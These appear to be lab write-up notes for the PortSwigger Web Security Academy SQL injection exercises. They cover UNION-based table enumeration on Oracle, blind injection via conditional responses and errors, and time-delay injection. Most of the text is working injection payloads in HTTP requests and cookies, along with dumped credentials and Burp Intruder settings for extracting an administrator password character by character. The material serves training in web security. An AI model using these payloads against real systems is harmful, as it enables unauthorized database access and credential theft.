

# SQL Injection Labs

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

## Blind SQL injection with conditional errors

Note: This is an Oracle DB

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Initial Oracle test (returns result)
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Crashes app
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI


# First Conditional test againt user table
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;

# Check PW Length
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# PW Fist letter check
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Intruder
Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
```

In Intruder:

- Switch to clusterbomb attack type
  - set first payload to number from 1-20 with increment 1
  - set second payload to `a-z` and `0-9`
- In results: filter for 500 status
- Sort by `payload 1`



## Blind SQL injection with time delays

```
# Initial Request
GET / HTTP/2
Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL

# Working example using string concatenation
Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
```

The SQL query on the srv might look like this

``` sql
SELECT userid FROM tracking where id='${trackingId}'
```

## Blind SQL injection with time delays and information retrieval

```
# Initial Request
GET / HTTP/2
Host: 0a6700fe046f338e812f434f00f40045.web-security-academy.net
Cookie: TrackingId=f3a7cn7ioKyEbnQz; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Initial check for execution (works)
Cookie: TrackingId=f3a7cn7ioKyEbnQz'|| pg_sleep(3) --; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# First Condition: Remeber we are already in a select statement
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || CASE WHEN ('1'='1') THEN pg_sleep(3) ELSE pg_sleep(0) END--; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Our first actual succefull data retrevial Request
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) < 30 
THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE 
username='administrator')-- ; 

# PW Length is 20
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn


# Test of PW char 1 1
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN (substring(password,1,1) > 'a') THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Intruder
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN substring(password,§1§,1) = '§a§' THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn
```

Intruder Settings:  

- cluster bomb
  - 1. pos = number 1-20
  - 2. pos = `a-z`, `0-9`
- set max concurrent connections to 10

In results:

- show `Response received`, which is the response time.
- Sort by that and read PW


